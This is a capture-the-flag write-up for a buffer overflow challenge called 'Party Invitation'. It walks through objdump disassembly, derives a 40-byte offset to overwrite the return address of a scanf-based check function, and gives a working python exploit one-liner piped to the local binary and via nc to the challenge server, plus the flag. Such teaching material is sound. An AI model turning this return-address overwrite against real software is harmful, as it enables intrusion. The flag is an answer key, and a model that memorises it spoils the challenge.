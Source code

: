 # Party Invitation

## Question Text

There's an awesome that's going to go down next week. Gotta get the invitation!

Created by Noans

## Distribution
AwesomeParty `MD5: 7e62828feb0a57a252efc944ccae3c29`

## Solution
1. Do an objdump on `AwesomeParty` with the command `objdump -d AwesomeParty`.
2. The following parts of from the `objdump` should be studied:  
```
00000000004005c6 <check>:
4005c6:	55                   	push   %rbp
4005c7:	48 89 e5             	mov    %rsp,%rbp
4005ca:	48 83 ec 20          	sub    $0x20,%rsp
4005ce:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
4005d2:	48 89 c6             	mov    %rax,%rsi
4005d5:	bf 0c 07 40 00       	mov    $0x40070c,%edi
4005da:	b8 00 00 00 00       	mov    $0x0,%eax
4005df:	e8 cc fe ff ff       	callq  4004b0 <__isoc99_scanf@plt>
4005e4:	bf 0f 07 40 00       	mov    $0x40070f,%edi
4005e9:	e8 a2 fe ff ff       	callq  400490 <puts@plt>
4005ee:	90                   	nop
4005ef:	c9                   	leaveq 
4005f0:	c3                   	retq
```
```
Disassembly of section .special:

000000001a1b1c1d <invitation>:
1a1b1c1d:	55                   	push   %rbp
1a1b1c1e:	48 89 e5             	mov    %rsp,%rbp
1a1b1c21:	bf 98 06 40 00       	mov    $0x400698,%edi
1a1b1c26:	e8 65 e8 24 e6       	callq  400490 <puts@plt>
1a1b1c2b:	bf c0 06 40 00       	mov    $0x4006c0,%edi
1a1b1c30:	e8 5b e8 24 e6       	callq  400490 <puts@plt>
1a1b1c35:	90                   	nop
1a1b1c36:	5d                   	pop    %rbp
1a1b1c37:	c3                   	retq 
```
3. The third line tells us 32 bytes is reserved for a variable.
4. Understand that the next 8 bytes stores the `%rbp`.
5. Derive that one needs to write 40 bytes of garbage before one can overwrite the return address for the `check` function.
5. Also derive address of `invitation` function is `1a1b1c1d`.

Final command to exploit local program assuming machine uses little-endian:  
`python -c 'print "a" * 40 + "\x1d\x1c\x1b\x1a"' | ./AwesomeParty`

In order to get the flag, players have to pipe the output to the game server:  
`python -c 'print "a" * 40 + "\x1d\x1c\x1b\x1a"' | nc pwn.chal.gryphonctf.com 18153`

## Flag
`GCTF{4W3S0M3_L177L3_P4R7Y}`

## Recommended Reads
* https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/
* https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64